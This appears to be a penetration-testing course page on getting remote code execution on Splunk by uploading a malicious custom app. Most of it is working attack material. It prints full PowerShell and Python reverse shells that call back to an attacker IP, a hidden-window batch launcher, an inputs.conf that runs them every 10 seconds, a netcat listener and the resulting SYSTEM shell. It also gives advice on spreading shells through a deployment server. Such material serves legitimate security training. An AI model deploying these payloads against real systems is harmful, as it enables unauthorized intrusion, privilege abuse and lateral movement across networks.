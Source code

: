 # Attacking Splunk

As discussed in the previous section, we can gain remote code execution on Splunk by creating a custom application to run Python, Batch, Bash, or PowerShell scripts. From the Nmap discovery scan, we noticed that our target is a Windows server. Since Splunk comes with Python installed, we can create a custom Splunk application that gives us remote code execution using Python or a PowerShell script.

***

## Abusing Built-In Functionality

We can use [this](https://github.com/0xjpuff/reverse_shell_splunk) Splunk package to assist us. The `bin` directory in this repo has examples for [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) and [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1). Let's walk through this step-by-step.

To achieve this, we first need to create a custom Splunk application using the following directory structure.

```shell-session
$ tree splunk_shell/

splunk_shell/
├── bin
└── default

2 directories, 0 files
```

The `bin` directory will contain any scripts that we intend to run (in this case, a PowerShell reverse shell), and the default directory will have our `inputs.conf` file. Our reverse shell will be a PowerShell one-liner.

```powershell
#A simple and small reverse shell. Options and help removed to save space. 
#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

The [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) file tells Splunk which script to run and any other conditions. Here we set the app as enabled and tell Splunk to run the script every 10 seconds. The interval is always in seconds, and the input (script) will only run if this setting is present.

```shell-session
$ cat inputs.conf 

[script://./bin/rev.py]
disabled = 0  
interval = 10  
sourcetype = shell 

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```

We need the .bat file, which will run when the application is deployed and execute the PowerShell one-liner.

```shell-session
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```

Once the files are created, we can create a tarball or `.spl` file.

```shell-session
$ tar -cvzf updater.tar.gz splunk_shell/

splunk_shell/
splunk_shell/bin/
splunk_shell/bin/rev.py
splunk_shell/bin/run.bat
splunk_shell/bin/run.ps1
splunk_shell/default/
splunk_shell/default/inputs.conf
```

The next step is to choose `Install app from file` and upload the application.

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption><p>https://10.129.201.50:8000/en-US/manager/search/apps/local</p></figcaption></figure>

Before uploading the malicious custom app, let's start a listener using Netcat or [socat](https://linux.die.net/man/1/socat).

```shell-session
$ sudo nc -lnvp 443

listening on [any] 443 ...
```

On the `Upload app` page, click on browse, choose the tarball we created earlier and click `Upload`.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>https://10.129.201.50:8000/en-US/manager/appinstall/_upload?breadcrumbs=Settings%7C%2Fmanager%2Fsearch%2F%09Apps%7C%2Fmanager%2Fsearch%2Fapps%2Flocal</p></figcaption></figure>

As soon as we upload the application, a reverse shell is received as the status of the application will automatically be switched to `Enabled`.

```shell-session
$ sudo nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.50] 53145


PS C:\Windows\system32> whoami

nt authority\system


PS C:\Windows\system32> hostname

APP03


PS C:\Windows\system32>
```

In this case, we got a shell back as `NT AUTHORTY\SYSTEM`. If this were a real-world assessment, we could proceed to enumerate the target for credentials in the registry, memory, or stored elsewhere on the file system to use for lateral movement within the network. If this was our initial foothold in the domain environment, we could use this access to begin enumerating the Active Directory domain.

If we were dealing with a Linux host, we would need to edit the `rev.py` Python script before creating the tarball and uploading the custom malicious app. The rest of the process would be the same, and we would get a reverse shell connection on our Netcat listener and be off to the races.

```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```

If the compromised Splunk host is a deployment server, it will likely be possible to achieve RCE on any hosts with Universal Forwarders installed on them. To push a reverse shell out to other hosts, the application must be placed in the `$SPLUNK_HOME/etc/deployment-apps` directory on the compromised host. In a Windows-heavy environment, we will need to create an application using a PowerShell reverse shell since the Universal forwarders do not install with Python like the Splunk server.
